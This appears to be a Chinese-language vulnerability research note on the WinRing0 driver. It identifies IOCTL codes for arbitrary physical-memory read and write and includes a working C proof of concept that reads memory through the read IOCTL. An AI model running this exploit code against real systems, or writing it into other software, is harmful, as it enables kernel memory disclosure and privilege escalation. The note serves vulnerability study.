





# WinRing0

根据CVE描述是一个读写的漏洞，可导致权限提升。



此驱动的摘要算法为MD5，我们都知道现在微软都用SHA-2了，在未关闭强制签名的情况下无法加载此驱动。测试时，关闭强制签名。



此驱动不是很复杂，能够轻松定位到对应存在任意读取漏洞的IOCTL控制码为`0x9C406104`。相关代码如下。输入缓冲区大小为16字节，对应为一个结构体。



根据简单的逆向不难得出，结构体结构如下。第一个参数表面读取的目标地址，第二个参数表示读取的类型（BYTE、SHORT、ULONG），第三个参数表示读取的个数。

```C
typedef struct _POC_STRUCT {
	ULONG64 PhysicalAddress;
	ULONG   Type;
	ULONG   Count;
} POC_STRUCT, * POC_STRUCT;
```

对应代码如下，实例按照BYTE类型读取8字节数据。

```C
#include <windows.h>
#include <stdio.h>

#define IOCTL_CODE 0x9C406104

typedef struct _POC_STRUCT {
	ULONG64 PhysicalAddress;
	ULONG   Type;
	ULONG   Count;
} POC_STRUCT, * PPOC_STRUCT;

int main() {
	HANDLE hDevice = CreateFileA("\\\\.\\WinRing0_1_0_1", GENERIC_READ | GENERIC_WRITE,
		0, NULL, OPEN_EXISTING, NULL, NULL);
	if (hDevice == INVALID_HANDLE_VALUE)
	{
		printf("CreateFileA falied with error:%lu", GetLastError());
		return 1;
	}

	ULONG64 StartAddress = 0;
	PPOC_STRUCT poc = (PPOC_STRUCT)malloc(sizeof(POC_STRUCT));
	ZeroMemory(poc, sizeof(POC_STRUCT));

	printf("[+] Input Target Kernel Address: 0x");
	// 16 进制的 64 位
	scanf_s("%llx", &StartAddress);

	poc->PhysicalAddress = StartAddress;
	poc->Type = 1; // BYTE
	poc->Count = 0x8;

	DWORD dwOutBufferSize = poc->Count * poc->Type;

	LPVOID lpOutBuffer = (LPVOID)malloc(dwOutBufferSize);	
	ZeroMemory(lpOutBuffer, dwOutBufferSize);

	DWORD dwBytesReturned = 0;

	BOOL bRet = DeviceIoControl(hDevice, IOCTL_CODE,
		poc, sizeof(POC_STRUCT),
		lpOutBuffer, dwOutBufferSize,
		&dwBytesReturned, NULL);
	if (!bRet) {
		printf("DeviceIoControl failed with error:%lu\n", GetLastError());
		goto cleanup;
		return 1;
	}
	printf("[+] Read %lu bytes from physical address 0x%llx:\n", dwBytesReturned, StartAddress);
	
	for (DWORD i = 0; i < dwBytesReturned; i++) {
		printf("%02X ", *(PBYTE)((PBYTE)lpOutBuffer + i));
	}
	printf("\n");

cleanup:
	free(lpOutBuffer);
	free(poc);
	CloseHandle(hDevice);
	return 0;
}
```



`0x9C40A108`控制码对应任意写漏洞。写入的内容在SystemBuffer传入结构体之后，和前面read的结构大差不差。



POC就不写了，这里tm操作的物理地址，麻烦得一批。
